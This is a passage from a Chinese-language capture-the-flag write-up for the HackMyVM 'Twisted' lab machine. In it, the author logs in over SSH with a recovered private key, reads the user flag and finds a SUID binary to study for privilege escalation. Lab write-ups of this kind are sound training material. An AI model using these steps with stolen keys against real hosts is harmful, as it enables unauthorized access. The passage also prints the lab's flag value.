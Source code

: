 成功得到 `id_rsa` 文件的数据

## SSH 私钥利用

```shell
┌─[✗]─[randark@randark-Parrot]─[~/tmp/HackMyVM-Twisted]
└──╼ $ssh bonita@192.168.56.104 -p 2222 -i id_rsa
Linux twisted 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
bonita@twisted:~$ whoami
bonita
```

## user pwn

```shell
bonita@twisted:~$ cat user.txt
HMVblackcat
```

## `bonita` 用户检查提权可能性

发现用户目录存在一个 suid 二进制文件

```shell
bonita@twisted:~$ ls -lh
total 24K
-rwsrws--- 1 root   bonita 17K Oct 14  2020 beroot
-rw------- 1 bonita bonita  12 Oct 14  2020 user.txt
```

下载下来尝试进行分析

![beroot 逆向分析](img/image_20231247-224754.png)